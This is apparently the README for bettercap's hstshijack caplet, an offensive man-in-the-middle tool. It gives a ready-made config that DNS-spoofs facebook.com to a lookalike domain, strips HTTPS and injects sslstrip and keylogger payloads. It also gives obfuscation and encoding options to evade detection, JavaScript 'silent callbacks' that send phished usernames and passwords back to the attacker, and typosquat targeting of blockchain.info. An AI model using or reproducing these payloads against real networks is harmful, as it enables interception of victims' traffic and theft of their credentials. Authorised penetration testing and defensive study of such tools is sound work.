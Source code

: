 <p align="center">
  <img width="420px" src="https://cdn.rawgit.com/yungtravla/cdn/ccdc3b8d/github.com/bettercap/caplets/hstshijack/logo.svg" />
</p>

### Caplet

```sh
set hstshijack.log             /usr/local/share/bettercap/caplets/hstshijack/ssl.log
set hstshijack.payload         /usr/local/share/bettercap/caplets/hstshijack/payloads/hstshijack-payload.js
set hstshijack.ignore          *
set hstshijack.targets         facebook.com,*.facebook.com
set hstshijack.replacements    facedook.com,*.facedook.com
set hstshijack.blockscripts    facebook.com,*.facebook.com
set hstshijack.obfuscate       false
set hstshijack.encode          true
set hstshijack.custompayloads  *:/usr/local/share/bettercap/caplets/hstshijack/payloads/sslstrip.js,*:/usr/local/share/bettercap/caplets/hstshijack/payloads/keylogger.js

set http.proxy.script  /usr/local/share/bettercap/caplets/hstshijack/hstshijack.js
set dns.spoof.domains  facedook.com,*.facedook.com

http.proxy  on
dns.spoof   on
```

### Core payload

This module injects HTML & JS files with a payload (<a href="./payloads/hstshijack-payload.js">**hstshijack-payload.js**</a>) that communicates with this module, revealing all URLs that are discovered in the injected document.

This is done in separate and asynchronous requests so that the bettercap proxy can adjust the host and path for each request, and send a HEAD request to learn each host's response headers for a HTTP request.

### Custom payloads

You can also inject your own JavaScript payload(s) into HTML & JS files from targeted hosts by assigning them to the `hstshijack.custompayloads` variable.

Example:

```sh
hstshijack.custompayloads *:hstshijack/payloads/sslstrip.js,google.com:hstshijack/payloads/google.js,*.google.com:hstshijack/payloads/google.js
```

Once the payload is injected into a page, you can technically phish any data unless the client navigates to a URL that either has strict transport security rules enforced by their browser, or the URL was not stripped due to JavaScript security.

<a href="./payloads/sslstrip.js">**sslstrip.js**</a> is included, which strips the `s` from all `https://` instances in `<a href="...` tags.

### Obfuscation

Your custom payloads are automatically obfuscated by the module.

Any instance beginning with `obf_` will be obfuscated.


Example: 

```js
function obf_function() {
  alert("Random variable: obf_whatever_follows")
}

obf_function()
```

Will be injected as:

```js
function jfIleNwmKoa() {
  alert("Random variable: AsjZnJWklwMNqshCaloE")
}

jfIleNwmKoa()
```

### Encoding

Payloads can be injected in HTML documents using base64 encoded data URLs.

To enable payload encoding, set `hstshijack.encode` to `true`.

### Silent callbacks

You can write custom payloads that communicate with bettercap without alerting the host.

Example of a silent callback:

```js
form.onsubmit = function() {
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.host + "/obf_path_callback?username=" + username + "&password=" + password)
  req.send()
}
```
<sup>Note: Every instance of `obf_path_callback` will be replaced with the callback path, every instance of `obf_path_whitelist` will be replaced with the whitelist path, and every instance of `obf_path_ssl_log` will be replaced with the SSL log path.</sup>

The code above will send a POST request that will be sniffed by bettercap, but not proxied. 

As soon as bettercap receives a silent callback, any request for the targeted host will no longer be spoofed for that client.

### Whitelisting callbacks

You can stop attacking a client on a certain host when you receive a request from that client for the whitelist path. The whitelist path will be inserted wherever you have `obf_path_whitelist` written in your payloads (`/` will not be written).

Example of whitelisting callbacks:

```js
// Whitelist multiple domains

form.onsubmit = function() {
  // Whitelist current hostname and phish credentials
  req = new XMLHttpRequest()
  req.open("POST", "http://" + location.hostname + "/obf_path_whitelist?username=" + username + "&password=" + password)
  req.send()

  // Whitelist facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://facedook.com/obf_path_whitelist")
  req.send()

  // Whitelist facebook CDN
  req = new XMLHttpRequest()
  req.open("POST", "http://static.xx.fdcdn.net/obf_path_whitelist")
  req.send()

  // Whitelist redirect to facebook
  req = new XMLHttpRequest()
  req.open("POST", "http://fd.com/obf_path_whitelist")
  req.send()
}
```

When the bettercap proxy receives such a request, it will stop attacking clients on the requested (original and spoofed) host. If a spoofed location is requested that was whitelisted, the client will then be redirected to the intended location.

Note that if the hostnames you are whitelisting are HSTS preloaded, you have to send the whitelist callback to the spoofed hostnames, otherwise the browser will enforce a HTTPS connection, and bettercap will not be able to intercept the requests.

### Block scripts

In the <a href="./hstshijack.cap">**caplet file**</a> you can block JavaScript on hosts by assigning them to the `hstshijack.blockscripts` variable. _(wildcard allowed)_ 

### SSL log

If a host responds with a HTTPS redirect, the module saves this host in the SSL log, and bettercap will from then on spoof SSL connections for this host when possible.

### Hostname spoofing

In the <a href="./hstshijack.cap">**caplet file**</a> you can assign comma separated domains to the `hstshijack.targets` variable. _(wildcard allowed)_

For every hostname you assign to `hstshijack.targets` you must assign a replacement domain to the `hstshijack.replacements` variable.

Example:

```sh
set hstshijack.targets       blockchain.info,*.blockchain.info
set hstshijack.replacements  blockchian.info,*.blockchian.info
```

You can try to make them as unnoticeable or obvious as you like, but your options are limited here.
